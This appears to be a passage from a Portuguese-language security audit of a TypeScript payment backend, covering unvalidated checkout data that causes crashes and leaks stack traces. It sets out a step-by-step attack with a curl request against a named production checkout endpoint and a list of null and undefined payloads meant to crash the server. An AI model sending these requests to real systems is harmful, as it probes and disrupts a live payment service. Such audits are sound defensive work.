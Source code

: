 **Vetor de Ataque:** Explorar erros de tipo que causam queries malformadas  
**Arquivo:** `server/routes.ts` (99 erros LSP)  
**Severidade:** CRÍTICA 🔴

#### Como o Hacker Exploraria:

**Cenário - Dados `undefined` em Operações de Banco:**

```typescript
// Código vulnerável (linha 2895-2916):
const creditCardRequest = {
  customer: {
    name: validatedPaymentData.customer.name || // ← pode ser undefined
           validatedPaymentData.payment.holder || 'Cliente',
  },
  payment: {
    creditCard: {
      cardNumber: validatedPaymentData.payment.cardNumber, // ← undefined!
      holder: validatedPaymentData.payment.holder,
      // ...
    }
  }
};
```

**Passo a Passo do Ataque:**

1. **Reconhecimento:**
   ```bash
   # Testar endpoint de checkout com dados faltando
   curl -X POST https://unipetplan.com.br/api/checkout/process \
     -H "Content-Type: application/json" \
     -d '{
       "customer": {},
       "payment": {}
     }'
   ```

2. **Resposta do Sistema:**
   ```json
   {
     "error": "Cannot read property 'cardNumber' of undefined",
     "stack": "at /server/routes.ts:2913:45"
   }
   ```
   ↑ **Vazamento de informação** - Hacker sabe que há validação fraca

3. **Exploração - Crash do Sistema:**
   ```javascript
   // Enviar payloads que causam undefined
   const maliciousPayloads = [
     { customer: null, payment: { cardNumber: "1234" } },
     { customer: { name: "" }, payment: undefined },
     { payment: { holder: null, cardNumber: undefined } }
   ];
   
   // Resultado: Sistema crasha ou comportamento imprevisível
   ```
